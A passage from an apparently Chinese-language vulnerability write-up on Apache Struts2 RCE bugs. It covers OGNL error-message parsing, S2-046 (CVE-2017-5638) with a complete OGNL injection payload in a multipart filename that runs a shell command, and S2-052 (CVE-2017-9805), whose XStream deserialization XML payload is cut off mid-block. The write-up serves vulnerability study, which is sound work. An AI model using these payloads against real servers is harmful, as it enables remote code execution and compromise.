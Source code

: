 这里看到调用了 `LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs())` 来处理异常信息，最终就是在这个方法内对异常信息中的Ognl表达式进行了解析，导致RCE。部分调用栈如下：

![image-20210816174522526](/media/image-20210816174522526.png)

RCE证明截图如下：

![image-20210816174607952](/media/image-20210816174607952.png)

## S2-046

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

CVE编号：CVE-2017-5638

POC如下：

```java
// 注意：末尾的%00b需要手动进行URL解码再发送
Content-Disposition: form-data; name="upload"; filename="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='calc').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}%00b"
```

这个漏洞的原理和S2-045是一样的，都是利用后台会使用Ognl解析报错信息导致RCE。这个漏洞的异常抛出位置如下：

![image-20210816181002324](/media/image-20210816181002324.png)

异常处理位置和S2-045是一样的：

![image-20210816181140122](/media/image-20210816181140122.png)

最终使用Ognl解析异常信息，因为异常信息中包含完整的Ognl表达式导致RCE：

![image-20210816181250528](/media/image-20210816181250528.png)

## S2-052

影响版本：Struts 2.1.6 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

CVE编号：CVE-2017-9805

POC如下：

```xml
<!--需要设置请求包的Content-Type为application/xml-->
<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
```